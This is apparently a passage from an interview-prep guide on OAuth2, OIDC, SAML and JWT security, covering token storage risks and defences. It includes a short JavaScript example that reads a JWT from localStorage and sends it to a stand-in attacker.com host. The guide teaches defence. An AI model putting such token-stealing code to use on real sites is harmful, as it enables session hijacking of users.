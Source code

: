 **OAuth2**: "I want to let Trello access my Google Drive without giving it my password."

**OIDC**: "I want users to log into my app using their Google account."

**SAML**: "Employees log into the corporate portal once, then access all internal apps (HR, email, CRM) without logging in again."

### Can They Work Together?
**Yes!**

**Common Stack**:
- Use **OIDC** for user authentication (login)
- OIDC issues an **ID Token** (JWT format) for user identity
- OIDC issues an **Access Token** (can be JWT) for API access
- Your APIs validate the JWT access token
- You use **refresh tokens** (OAuth2 concept) for long sessions

**Example with Okta**:
1. User logs in via Okta (OIDC)
2. Okta returns ID Token (JWT) and Access Token (JWT)
3. Your app uses ID Token to identify the user
4. Your app sends Access Token to your APIs
5. Your APIs validate JWT Access Token
6. When Access Token expires, use Refresh Token to get new one

---

## JWT Security Concerns and Vulnerabilities

While JWT is powerful, improper implementation leads to vulnerabilities. Understanding these is critical for interviews and secure applications.

### 1. Token Storage Vulnerabilities

#### a) LocalStorage XSS Risk
**Problem**: If JWT is stored in `localStorage`, it's accessible to JavaScript. If your site has an XSS vulnerability (injected malicious script), the attacker can steal the JWT.

```javascript
// Malicious script steals JWT
const token = localStorage.getItem('jwt_token');
fetch('https://attacker.com/steal?token=' + token);
```

**Solution**:
- Store JWT in **HTTP-only cookies** (JavaScript can't access)
- Implement strong Content Security Policy (CSP)
- Sanitize all user inputs to prevent XSS

#### b) CSRF with Cookies
**Problem**: If JWT is stored in a cookie, browsers automatically send it with every request to that domain. Attacker can trick user into making requests (CSRF attack).

**Solution**:
- Use `SameSite=Strict` or `SameSite=Lax` cookie attribute
- Implement CSRF tokens for state-changing operations
- Verify the `Origin` or `Referer` header
